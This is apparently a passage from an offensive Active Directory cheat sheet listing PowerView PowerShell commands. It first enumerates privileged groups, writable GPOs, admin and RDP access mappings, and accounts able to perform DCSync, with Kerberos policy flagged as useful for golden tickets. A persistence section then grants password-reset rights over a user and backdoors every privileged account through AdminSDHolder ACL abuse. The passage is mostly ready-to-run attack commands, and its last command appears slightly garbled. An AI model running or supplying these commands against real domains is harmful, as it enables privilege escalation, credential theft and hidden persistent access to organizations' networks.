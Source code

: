 ```powershell
# Find admin groups based on "adm" keyword
Get-NetGroup *adm* 

# Find any machine accounts in privileged groups
Get-DomainGroup -AdminCount | Get-DomainGroupMember -Recurse | ?{$_.MemberName -like '*$'}

# Enumerate permissions for GPOs where users with RIDs of > -1000 have some kind of modification/control rights
Get-DomainObjectAcl -LDAPFilter '(objectCategory=groupPolicyContainer)' | ? { ($_.SecurityIdentifier -match '^S-1-5-.*-[1-9]\d{3,}$') -and ($_.ActiveDirectoryRights -match 'WriteProperty|GenericAll|GenericWrite|WriteDacl|WriteOwner')}

# find all policies applied to a computer/server
Get-DomainGPO -ComputerIdentity <Server>.<FQDN>

# return the local group *members* of a remote server using Win32 API methods (faster but less info)
Get-NetLocalGroupMember -Method API -ComputerName <Server>.<FQDN>

# enumerate the current domain controller policy
$DCPolicy = Get-DomainPolicy -Policy <DC>
$DCPolicy.PrivilegeRights # user privilege rights on the dc...

# enumerate the current domain policy
$DomainPolicy = Get-DomainPolicy -Policy Domain
$DomainPolicy.KerberosPolicy # useful for golden tickets
$DomainPolicy.SystemAccess # password age/etc.

# enumerate what machines that a particular user/group identity has local admin rights to
#   Get-DomainGPOUserLocalGroupMapping == old Find-GPOLocation
Get-DomainGPOUserLocalGroupMapping -Identity <User/Group>

# enumerate what machines that a given user in the specified domain has RDP access rights to
Get-DomainGPOUserLocalGroupMapping -Identity <User> -Domain <Domain> -LocalGroup RDP

# export a csv of all GPO mappings
Get-DomainGPOUserLocalGroupMapping | %{$_.computers = $_.computers -join ", "; $_} | Export-CSV -NoTypeInformation gpo_map.csv

# retrieve *most* users who can perform DC replication for dev.<Domain>.local (i.e. DCsync)
Get-DomainObjectAcl "dc=dev,dc=<Domain>,dc=local" -ResolveGUIDs | ? {
    ($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')
}
```

##  7. <a name='ENUM:DOMAINPERSISTENCY'></a>ENUM: DOMAIN PERSISTENCY

```powershell
# enumerate who has rights to the 'matt' user in '<Domain>.local', resolving rights GUIDs to names
Get-DomainObjectAcl -Identity matt -ResolveGUIDs -Domain <Domain>

# grant user 'will' the rights to change 'matt's password
Add-DomainObjectAcl -TargetIdentity matt -PrincipalIdentity will -Rights ResetPassword -Verbose

# audit the permissions of AdminSDHolder, resolving GUIDs
Get-DomainObjectAcl -SearchBase 'CN=AdminSDHolder,CN=System,DC=<Domain>,DC=local' -ResolveGUIDs

# backdoor the ACLs of all privileged accounts with the 'matt' account through AdminSDHolder abuse
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=<Domain>,DC=local' -PrincipalIdentity matt -Rights All/
```
